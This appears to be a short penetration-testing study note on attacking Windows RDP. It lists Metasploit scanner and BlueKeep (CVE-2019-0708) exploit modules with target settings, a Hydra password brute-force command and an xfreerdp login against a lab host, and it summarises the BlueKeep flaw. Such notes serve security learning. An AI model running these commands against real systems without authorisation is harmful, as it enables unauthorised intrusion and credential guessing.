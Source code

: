 # Metasploit:

- if rdp is not running on standard port 3389, 
- run auxiliary/scanner/rdp/rdp_scanner on suspected port, eg. 3333
![rdp_scanner output](./images/rdp-01.png)
- auxiliary/scanner/rdp/cve_2019_0708_bluekeep
- exploit/windows/rdp/cve_2019_0708_bluekeep_rce
	- set target 2
	- 2 : Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Virtualbox 6)

# Hydra:

- brute-force
- hydra -L <userlist> -P <passlist> rdp://10.0.0.31 -s 3333
- wordlists:
	- /usr/share/metasploit-framework/data/wordlists/common_users.txt
	- /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
	- -s specifies non-standard port
- xfreerdp /u:<user> /p:<pass> /v:10.0.0.31:3333

# BlueKeep Vuln (CVE-2019-0708)

- takes adv of vuln in windows rdp protocol
- allows attacker to gain access to chunk of kernel mem
- allows remote code execution at system level without auth
- affects XP, Vista, Win7, WinServ2008 & R2
- exploit can cause system crash